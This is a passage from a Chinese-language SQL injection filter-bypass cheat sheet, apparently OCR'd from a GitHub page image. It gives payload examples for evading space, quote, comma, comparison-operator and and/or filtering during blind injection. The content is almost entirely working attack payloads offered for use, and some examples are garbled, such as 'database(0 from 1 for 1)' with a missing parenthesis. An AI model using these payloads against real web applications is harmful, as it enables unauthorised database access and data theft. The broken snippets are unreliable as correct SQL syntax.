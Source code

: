 * `%a0`

* 用Tab代替空格

* 括号绕过

  &gt; 前提时括号没被过滤

  **任何可以计算出结果的语句**，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

  例：`select(user())fromdualwhere(1=1)and(2=2)`

## 引号绕过

* 使用十六进制

  例：

  ```
  ……where table_name=&#34;users&#34;		# 把users转为十六进制
  ……where table_name=0x7573657273
  ```

## 逗号绕过

&gt; 盲注的时候，substr()，mid()，limit()等方法需要逗号

* 对于`substr()`和`mid()`使用from to解决

  ```
  select substr(database(0 from 1 for 1);
  select mid(database(0 from 1 for 1);
  ```

* 对于`limit()`使用offset绕过

  ```
  select*from news limit0,1
  ===&gt; select*from news limit 1 offset 0
  ```

## 比较符号（&lt;&gt;）绕过

&gt; 盲注的时候，使用二分查找的时候需要使用到比较操作符来进行查找

* 使用greatest()绕过

```
select * from users where id=1 and ascii(substr(database(),0,1))&gt;64
===&gt; select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

* `or &#39;password&#39; &gt; &#39;pass&#39; or 1&lt;3`

## or and 绕过

* `and` =&gt; `&amp;&amp;`
* `or` =&gt; `||`

